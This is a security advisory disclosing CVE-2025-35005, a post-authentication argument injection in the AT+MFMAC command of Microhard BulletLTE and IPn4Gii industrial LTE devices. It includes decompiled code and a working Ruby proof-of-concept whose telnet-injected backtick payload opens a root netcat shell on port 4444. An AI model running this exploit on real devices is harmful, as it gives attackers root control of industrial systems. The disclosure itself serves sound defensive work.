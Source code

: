 ```yaml
---
title: CVE-2025-35005
aliases:
  - /cves/CVE-2025-35005.html
---
```


# CVE-2025-35005: Microhard Bullet-LTE and IPn4Gii AT+MFMAC Argument Injection

[AHA!] has discovered an issue with multiple Microhard products, and is issuing this disclosure in accordance with AHA!'s standard [disclosure policy] on June 8, 2025. [CVE-2025-35005] has been assigned to this issue.

Any questions about this disclosure should be directed to cve@takeonme.org.

# Executive Summary

Products that incorporate the Microhard [BulletLTE-NA2] and [IPn4Gii-NA2] are vulnerable to a post-authentication command injection issue that can lead to privilege escalation. This is an instance of [CWE-88](https://cwe.mitre.org/data/definitions/88.html), "Improper Neutralization of Argument Delimiters in a Command ('Argument Injection')," and is estimated as a CVSS [7.1](https://www.first.org/cvss/calculator/3-1#CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:N).

# Technical Details

A command injection vulnerability exists within the AT+MFMAC command in the restricted CLI interface of multiple Microhard products. Authentication is required to exploit this vulnerability in that you must have a user account to access the CLI via telnet. However, the service is running as root, so injecting commands allows an attacker to escape the restricted shell and elevate privileges for full access.

The [firmware] for affected devices contains the binary `/bin/clitest`, which handles the restricted CLI interface. It is reachable via telnet or ssh connection. It allows the user to run certain config commands as well as AT+ commands to interact with the Quectel modem. One of these AT+ commands is AT+MFMAC which is used for querying/configuring the MAC firewall. User input supplied to the cmd_firewall_mac() function in param_3 and is used as an argument for the /etc/m_cli/atcmd_sh_firewall.sh script which is called via popen():

```
undefined4 cmd_firewall_mac(undefined4 param_1,undefined4 param_2,char **param_3,int param_4)
{
	...
        if (((int)uVar5 != 0) &&
           (iVar2 = FUN_00021524(param_3[4],(int)((ulonglong)uVar5 >> 0x20)), iVar2 != 0)) {
          iVar2 = atoi(param_3[3]);
          sprintf(acStack_374,"sh /etc/m_cli/atcmd_sh_firewall.sh %s %s %s %s","mac_set_one",
                  acStack_334,auStack_1b0 + iVar2 * 0x84,param_3[4]);
          memset(local_2b4,0,0x100);
          iVar2 = FUN_0000e9a0(param_1,acStack_374,local_2b4,0x100);
          if (iVar2 == 0) {
            pcVar4 = "ERROR";
            goto LAB_00028cf8;
          }
        }
	...
}

size_t FUN_0000e9a0(undefined4 param_1,char *param_2,void *param_3,size_t param_4)
{
  FILE *__stream;
  char *__s;
  size_t sVar1;
  
  __stream = popen(param_2,"r");
  if (__stream != (FILE *)0x0) {
    memset(param_3,0,param_4);
    fread(param_3,1,param_4,__stream);
    pclose(__stream);
    __s = (char *)trimwhitespace(param_3);
    sVar1 = strlen(__s);
    return sVar1;
  }
  cli_print(param_1,"ERROR: Failed to run script");
  return 0;
}
```

If an attacker wraps input to the AT+MFMAC command in `$()` (dollar-parentheses) or backticks (which are tricky to render in Markdown!) they can put whatever command they want and it will be run as the root user. Note that spaces are not allowed, so $IFS must be used instead for space-delimited arguments for the command payload.

The Ruby script below effectively demonstrates an attack using [CVE-2025-35005] as a proof-of-concept:

```ruby
#!/usr/bin/env ruby
require 'net/telnet'
require 'io/console'

if !ARGV[0]
  puts "usage: #{$0} <ip> [<username> <password>]"
  exit(1)
end

target = ARGV[0]
if ARGV[1] && ARGV[2]
  user = ARGV[1]
  pass = ARGV[2]
else
  printf("user: ")
  user = STDIN.gets.chomp
  printf("pass: ")
  pass = STDIN.noecho(&:gets).chomp
  puts ""
end

telnet = Net::Telnet::new("Host" => target, "Timeout" => 2, "Prompt" => /^\w+>/)
telnet.login(user,pass) {|c| print c}
begin
  telnet.cmd("at+mfmac=`nc$IFS-lvp$IFS\\4444$IFS-e$IFS/bin/sh$IFS-i`") {|c| print c}
rescue
  puts "shell spawned on #{ARGV[0]}:4444"
  pid = spawn("nc -v #{ARGV[0]} 4444")
  Process.wait pid
end

telnet.close
```

# Attacker Value

If an attacker has a valid credential to the affected Microhard device, and the means to login (for example, over telnet), that attacker can leverage this vulnerability to escape the restricted shell and elevate privileges to root. Industrial control systems (ICS) are often deployed with easy to guess or default credentials, which could be used in conjunction with [CVE-2025-35005] to achieve complete, root-level remote control over affected devices.

# Credit

This vulnerability was discovered and documented by Ricky "HeadlessZeke" Lawshae of Keysight.

# Timeline

* 2025-03-27 (Thu): Presented at regularly scheduled AHA! meeting 0x00df
* 2025-04-02 (Wed): Contact initiated to several guessed email aliases, such as info@microhardcorp.com,  support@microhardcorp.com, etc.
* 2025-04-02 (Wed): Bounces collected from media@, press@, security@, and secure@. No bounce notification was generated from info@ and support@, though a customer account was required to further communicate with support@, which [AHA!] does not have.
* 2025 (April and May): No further communication from the vendor was received.
* 2025-06-08 (Sun): Verified current IPn4Gii/BulletLTE [firmware] remains at v1.2.0-r1132 
* 2025-06-08 (Sun): Public disclosure of [CVE-2025-35005]

----

[AHA!]: https://takeonme.org
[disclosure policy]: https://takeonme.org/cve.html
[CVE-2025-35005]: https://www.cve.org/CVERecord?id=CVE-2025-35005
[BulletLTE-NA2]: https://www.microhardcorp.com/BulletLTE-NA2.php
[IPn4Gii-NA2]: https://www.microhardcorp.com/IPn4Gii-NA2.php
[firmware]: https://support.microhardcorp.com/portal/en/kb/articles/ipn4gii-bullet-lte-firmware
